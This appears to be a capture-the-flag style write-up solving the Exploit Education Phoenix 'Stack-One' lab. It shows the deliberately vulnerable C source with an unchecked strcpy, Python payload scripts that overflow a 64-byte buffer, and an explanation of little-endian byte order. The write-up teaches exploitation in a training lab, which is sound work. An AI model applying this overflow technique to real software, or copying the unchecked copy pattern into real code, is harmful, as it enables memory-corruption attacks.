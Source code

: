 ```yaml
---
title: Exploit Education > Phoenix > Stack-One
date: '2021-09-25'
draft: false
--- 
```


Stack-One is an ASCII challenge. It's described by the following C code:

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

When looking at the code, the following line catches the eye immediately:

```
strcpy(locals.buffer, argv[1]);
```

Our `main` function uses `strcpy` without validating our inputs size first! If we look at our `locals` struct (of which `buffer` is strcpy's destination), we can see that it also contains the volatile `changeme` variable.

```
struct {
    char buffer[64];
    volatile int changeme;
  } locals;
```

The goal of this challenge is to change `changeme` to `0x496c5962`. The solution to this exercise is similar to the one we used for `Stack-Zero`: We write 64 characters into `argv` at the start of the program and `0x496c5962` after that. We want to write the actual number `0x496c5962` into `changeme`, but our terminal only provides us the with possibility to enter characters. 

One solution for this is to convert `0x496c5962` into an ASCII string. Most ASCII characters fall into a range between 0 and 255, a.k.a 2 to the power of 8 possible characters, or one byte. Since a single hex digit stores 4 bit of information, we split `0x496c5962` into small packets for two digits each. This leaves us with `0x49` `0x6c` `0x59` and `0x62`. Translate that into human readable ASCII characters and you get `IlYb`. 

To solve this challenge, we need to pipe 64 characters into `argv` to pad the buffer into overflowing and `IlYb` to set `changeme` to `0x496c5962`. To do this in a more simpler way, we can yet again use python four our needs: 

``` 
# stack-one.py

padding = '0' * 64
changeme = 'IlYb'

print(padding + changeme)
```

Note that in python, instead of converting a known string of numbers to ASCII characters, we could just print bytes instead!

``` 
# stack-one.py

padding = '0' * 64
changeme = '\x49\x6c\x59\x62'

print(padding + changeme)
```

Calling `./stack-one $(python3 stack-one.py)` should print the message `Well done, you have successfully set changeme to the correct value` for us.

```
> ./stack-one $(python3 stack-one.py) 

> Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```

Huh. Seems like we did indeed change `changeme`, but it's value is *reversed*. To understand what's actually going on here, we have too take yet another look at `Stack-One`'s description:

*Having troubles? How does the endianness of the architecture affect the layout of how variables are laid out?*

Since we are on an x86 linux system, we know that we're using `little-endian`. The following image explains the difference in storage layout:

![Endianness](/assets/Endianness.png)

Values in `little-endian` seem to be *reversed* compared to how a human would naturally read them. To spare programmers the pain of having to write values reversed if their host system is little endian, compilers automatically look up if their system is little endian and emit any value in the approriate format. If we changed `changeme` to `0x496c5962` *inside* `stack-zero-c` and compiled it via `gcc`, our compiler would write it as `0x62596c49` *in memory*, pointing to its "end" `0x49` as the first value. 

Our mistake immediately becomes clear: We naturally write our target value 0x496c5962 from left to right into `stack-one`'s arguments. When its `main` function stores the `argv[1]` value in `locals.buffer`, causing a buffer overflow, it writes `0x496c5962` into `changeme`'s memory location *without any compiler intervention*. In memory, `changeme` reads `0x496c5962` but is read from right to left because our system is little-endian. To correct for this, we just have to reverse `0x496c5962` so it fits inside memory in the correct way.

This can be achieved by changing our little python snippet accordingly:
``` 
# stack-one.py

padding = '0' * 64;
changeme = 'IlYb'[::-1] # short syntax for reversing a string

print(padding + changeme)
```

Using our newly adjusted script, we can see that we successfully solved this challenge!

```
> ./stack-one $(python3 stack-one.py) 

> Well done, you have successfully set changeme to the correct value
```